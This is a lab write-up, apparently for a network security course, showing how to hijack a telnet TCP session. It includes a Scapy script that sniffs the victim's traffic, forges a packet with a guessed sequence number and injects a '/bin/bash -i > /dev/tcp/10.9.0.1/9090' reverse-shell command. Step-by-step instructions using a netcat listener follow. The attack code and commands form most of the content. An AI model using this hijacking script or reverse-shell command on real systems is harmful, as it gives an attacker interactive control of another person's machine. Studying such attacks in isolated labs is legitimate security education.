 Use the same code as task 3  and change the data to send to the command to setup reverse shell
`\r /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1 \r`

## Code 
```python
from scapy.all import *

def sniffAndHijack(pkt):
	old_seq = pkt[TCP].seq
	old_ack = pkt[TCP].ack
	ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
	tcp = TCP(sport=pkt[TCP].dport, dport=pkt[TCP].sport, flags="A", seq=old_ack+5, ack=old_seq)
	data = "\r /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1 \r"
	spoofedPkt = ip/tcp/data
	send(spoofedPkt,iface="br-c26fa13374f9",verbose=0)

sniff(iface='br-c26fa13374f9', filter='tcp and src host 10.9.0.5 and src port 23', prn=sniffAndHijack)
```

## Steps to carry out attack
1. run the `netcat` client on the attacker machine using `netcat -lvn 9090`
2. make sure the client machine is connected to the server machine using `telnet`
3. start the `reverseShell.py` code on the attacker's machine
4. try to run some command on the `telnet` connection until the connection hanged
5. The `netcat` client will then gain access to a interactive shell

## Result and observation
### Running the telnet client on the attacker machine
![](attachments/Pasted%20image%2020231001161635.png)
### Connect the client to the victim server
![](attachments/Pasted%20image%2020231001161736.png)
### Start the reverseShell code
![](attachments/Pasted%20image%2020231001161816.png)
### Telnet session hanging
![](attachments/Pasted%20image%2020231001161601.png)
### Gain control to the interactive shell